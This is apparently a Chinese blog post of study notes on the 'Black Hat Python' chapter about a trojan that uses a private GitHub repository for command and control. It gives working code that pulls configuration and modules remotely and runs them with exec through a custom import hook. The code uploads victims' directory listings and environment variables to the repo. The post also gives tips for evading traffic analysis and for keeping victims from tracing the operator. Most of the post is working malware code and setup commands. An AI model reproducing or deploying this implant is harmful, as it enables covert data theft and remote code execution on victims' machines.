





# 楔子
看了 Python 黑帽子一书，记一下笔记。
# 正文
想要开发一套实用的木马框架，最大的挑战之一是设计合理的控制、更新和传输数据的方案。
# 基于 Github 服务的 C&C 通信
本章利用 Github 作为存放木马配置、窃取受害者系统数据的通道，并且将木马执行任务所需的所有模块都托管在 Github 上。
“魔改” Python 原生的导入机制，这样创建新的木马模块后，木马就能自动从仓库里直接拉取这些模块以及任何需要依赖的第三方库
好处：
- 和 Github 之间的通信流量都是经过 SSL 加密的。
- 公司内网一般不会禁用 Github。
使用私有仓库，以防有人窥探我们的行动。
# 第一步
创建Github仓库
注册 Github 账号就不说了，创建一个名字叫 bhptrojan 的新仓库。

安装 python 版本的 Github API 库： pip3 install github3.py

在本地创建这个仓库的基本结构。在命令行中输入以下内容：
mkdir bhptrojan | |
cd bhptrojan | |
git init | |
mkdir modules | |
mkdir config | |
mkdir data | |
touch .gitignore | |
git add . | |
git commit -m "Adds repo structure for trojan." | |
git remote add origin https://github.com/<YourUserName>/bhptrojan.git | |
git push origin master |

可能需要科学上网！
这样就创建了仓库的初始结构。
其中 config 目录存放这每种木马独有的配置文件。这样部署木马时，你会希望每种木马执行不同的任务，所以每种木马应该检查各自的配置文件。modules 目录存放这各种模块可供木马选用。我们会修改 Python 的导入机制，让木马能够从 GitHUb 仓库里直接导入这些模块。
有了这种远程导入能力，你就能通过 GitHub 下发各种第三方库，避免每次添加新功能或依赖时都重新编译打包可执行木马文件。
最后 data 目录则是木马用来上交它们收集到的数据的地方。
也可以创建一个 GitHub 个人访问令牌，当通过 HTTPS 与 GItHub API 交互时，可以用令牌代替你的密码。
这个书中让参考：https://docs.github.com/en/authentication
创建完令牌后保存在 mytoken.txt 中。记得添加到 .gitignore 中，这样就不会把身份凭证推送到仓库里了。
# 第二步
编写一些简单的模块
在 module 文件夹下创建两个模块一个为 dirlister.py ，另一个为 environment.py
dirlister.py:
import os | |
def run(**args): | |
""" | |
会把当前目录下所有文件列出来，并将一个结果拼成一个字符串返回。 | |
""" | |
print("[*] In dirlister module.") | |
files = os.listdir(".") | |
return str(files) |
import os | |
def run(**args): | |
""" | |
这个模块仅仅收集远程设备上所设定的所有环境变量 | |
""" | |
print("[*] In environment module.") | |
return os.environ |
开发的每个模块都应该提供一个接受若干个参数的 run 函数，这样技能以一个相对统一的形式来加载每个模块，又能通过定制配置文件给每个模块传递不同的参数。
接下了将这些代码推到 GitHub 仓库上，以便木马使用。
执行一下命令：
git add . | |
git commit -m "Add new modules." | |
git push origin master |
可以看到代码被推到 GitHub 仓库里了。
这就是开发木马的工作流程，可以添加一些更复杂的木马模块，巩固所学。
# 第三步
编写木马配置文件
我们会设定让每个木马去检查 config 目录中的 TROJANID.json 文件，它是一个简单的 JSON 文档，可以解析它、把它转换成 Python 字典，然后根据里面的信息操控木马的行为。
在 config 目录下创建一个 abc.json , 并输入以下内容:
[ | |
{ | |
"module" : "dirlister" | |
}, | |
{ | |
"module" : "environment" | |
} | |
] |
这里只是简单列出了木马应该运行那些模块。
当然这里也可以添加一些额外的使用选项，比如模块执行的时间、模块的执行次数，或是传递给模块的参数。
然后在主仓库目录下执行一下命令：
git add . | |
git commit -m "Add simple configuration." | |
git push origin master |
# 第四步
构建基于GitHub通信的木马
木马主体会从 GitHub 获取配置信息和要执行的代码。
首先我们先编写一批函数用于连接、鉴权以及调用 GitHub API。新建一个文件明明为： git_trojan.py
先包含必要的库：
import base64 | |
import github3 | |
import importlib | |
import json | |
import random | |
import sys | |
import threading | |
import time | |
from datetime import datetime |
编写与木马相关的 GitHub 代码：
def github_connect(): | |
with open('mytoken.txt') as f: | |
token = f.read() | |
user = 'tiarno' | |
sess = github3.login(token=token) | |
return sess.repository(user, 'bhptrojan') | |
def get_file_contents(dirname,module_name,repo): | |
return repo.file_contents(f'{dirname}/{module_name}') |
这两个函数会处理和 GitHub 仓库之间的交互。
github_connect 函数会读取在 GitHub 上创建的令牌。
在创建令牌时，将它保存到了一个名为 mytoken.txt 的文件中。
现在我们该从改文件中读取令牌，并创建一个 GitHub 仓库连接。
我们可以给不同的木马创建不同的令牌，这样就能控制每个木马有权访问哪些数据。即使受害者捕获了木马，也无法溯源并删除你的所有数据。
get_file_contents 函数会接受文件名、模块名以及一个 GitHub 连接作为参数，并返回相应模块的内容。
这个函数负责从远处仓库里抓取文件并读取里面的数据。我们会用它读取配置文件和模块源代码。
现在我们来编写 Trojan 类，它负责执行基本的木马任务：
class Trojan: | |
def __init__(self, id): | |
""" | |
初始化木马对象，设定好它的配置文件和数据目录路径（用于上报木马的输出结果），然后连接GitHub仓库。 | |
""" | |
self.id = id | |
self.config_file = f'{id}.json' | |
self.data_path = f'data/{id}/' | |
self.repo = github_connect() |
下面编写和 GitHub 仓库通信时所需的函数：
def get_config(self): | |
""" | |
从仓库中读取远程配置文件，这样木马就知道该运行那些模块，并通过调用exec函数将模块内容引入木马对象。 | |
""" | |
config_json = get_file_contents( | |
'config', self.config_file, self.repo | |
) | |
config = json.loads(base64.b64decode(config_json)) | |
for task in config: | |
if task['module'] not in sys.modules: | |
exec("import %s" % task['module']) | |
return config | |
def module_runner(self, module): | |
""" | |
函数会调用刚才所引入模块的run函数。 | |
""" | |
result = sys.modules[module].run() | |
self.store_module_result(result) | |
def store_module_result(self, data): | |
""" | |
函数会创建一个文件，其文件名包含当前日期和时间，然后将模块的输出结果存在这个文件中。 | |
""" | |
message = datetime.now().isformat() | |
remote_path = f'data/{self.id}/{message}.data' | |
bindata = bytes('%r' % data, 'utf-8') | |
self.repo.create_file( | |
remote_path, message, base64.b64encode(bindata) | |
) |
我们的木马会利用这个三个函数，把从目标设备上收集到的数据推送到 GitHub 上。
def run(self): | |
""" | |
执行任务 | |
""" | |
while True: | |
# 从仓库中拉取配置文件 | |
config = self.get_config() | |
for task in config: | |
# 把模块交给一个独立的线程去执行。 | |
thread = threading.Thread( | |
target=self.module_runner(), | |
args=(task['module'],) | |
) | |
thread.start() | |
time.sleep(random.randint(1, 10)) | |
time.sleep((random.randint(30 * 60, 3 * 60 * 60))) |
在 run 函数中，我们开始执行这些任务。
进入 module_runner 函数后，我们调用模块的 run 函数执行之中的代码。当它执行结束后，应该会输出一个字符串，我们会把这个字符串推送到 GitHub 上。
每执行完一个任务，木马安都会随机休眠一段时间，以尝试绕过防守方的流量特征分析。当然也可以创建一堆指向 Google 的流量，回事访问一些正常网站，以此来伪装木马。
# 第五步
深入探索Python的import功能
在我们操纵的远程设备上难免会用到这个设备上不存在的包，然而远程安装软件包是件很麻烦的事。
除此之外，我们还希望每次添加一项依赖（比如 scapy）之后，可以确保每个模块都能用上这个依赖。
Python 允许我们改动导入模块的过程，如果没能在本地找到某个模块，就会调用我们定义的 import 类，这样就能从我们的仓库远程拉取代码。
我们要把编写的这个类添加到 sys.meta_path 列表中。
现在构建这个类：
class GitImporter: | |
def __init__(self): | |
self.current_module_code = "" | |
def find_module(self, name, path=None): | |
print("[*] Attempting to retrieve %s" % name) | |
self.repo = github_connect() | |
new_library = get_file_contents('modules', f'{name}.py', self.repo) | |
if new_library is not None: | |
self.current_module_code = base64.b64decode(new_library) | |
return self | |
def load_module(self, name): | |
spec = importlib.util.spec_from_loader(name, loader=None, origin=self.repo.git_url) | |
new_module = importlib.util.module_from_spec(spec) | |
exec(self.current_module_code, new_module.__dict__) | |
sys.modules[spec.name] = new_module | |
return new_module |
每当解释器尝试加载一个不存在的模块时，都会调用 GitImporter 类。
首先，解释器会调用 find_module 函数尝试找到这个模块，我们将这个调用交给远程加载器来处理。如果在仓库中找到这个文件，就将其中的代码以 base64 解码， 存储到我们的类里（GitHub 给我们的数据默认是 Base64 编码的）。
接着返回 self ，告知解释器找到了这个模块，而且解释器可以调用 self 的 load_module 函数来实际加载模块。在这个函数里，我们调用 Python 原生的 importlib 库创建了一个空白的模块对象，并将我们从 GitHub 上拉取到的代码填进去。
# 第六步
执行代码
最后我们将新创建的模块插入 sys.modules 列表，这样未来的任何 import 语句都能直接找到它。
if __name__ == '__main__': | |
# 将 GitImporter 添加到 sys.meta_path 列表中 | |
sys.meta_path.append(GitImporter()) | |
# 创建木马对象 | |
trojan = Trojan('abc') | |
# 调用 run 函数 | |
trojan.run() |
执行结果：

可以看到它连接上了仓库，读取了配置文件，拉取了配置文件中设定的两个模块，并且运行了它们。
# 总结
最后在木马文件夹中执行： git pull origin master 把在仓库中 data 目录下的数据拉取回来。
在 Windows 上拉取会报一些莫名其妙的错误。
可以在 GitHub 上看到木马提交了两个模块的执行结果。

后面也可以对核心的 C&C 机制进行若干改进。例如，自动化整个拉取数据、更新配置和发布木马的流程。